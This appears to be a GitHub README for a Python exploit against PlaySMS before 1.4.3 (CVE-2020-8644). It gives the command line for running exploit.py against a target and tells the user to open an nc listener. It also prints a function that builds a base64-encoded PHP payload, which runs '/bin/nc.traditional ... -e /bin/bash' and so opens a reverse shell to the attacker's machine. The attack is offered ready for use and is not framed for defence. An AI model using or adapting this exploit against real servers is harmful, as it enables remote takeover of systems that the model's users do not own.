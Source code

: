 # CVE-2020-8644-PlaySMS-1.4
Python script to exploit PlaySMS before 1.4.3

## Execution

Open a port on your machine:

![Open port with nc](/img/nc.png)

And the execute exploit.py:

![Execution](/img/execution.png)

```
./exploit.py <target-ip> <target-port> <your-ip> <your-open-port>
```

## Changing the exploit

Tou may want to change the reverse shell created by exploit.py

To do this, you can change the function ```create_revshell_encoded``` on lines 14 to 19 of exploit.py:

```
def create_revshell_encoded(lhost,lport):
    # Change if you need
    revshell = "/*<?php /**/ system('/bin/nc.traditional "+lhost + " " + lport + " -e /bin/bash');"
    revshell_encoded = base64_encode(revshell)
    revshell_encoded = revshell_encoded.split('=')[0]
    return revshell_encoded
```

This code was developed to exploit a specific scenario where the target machine had ```/bin/nc.traditional``` available.
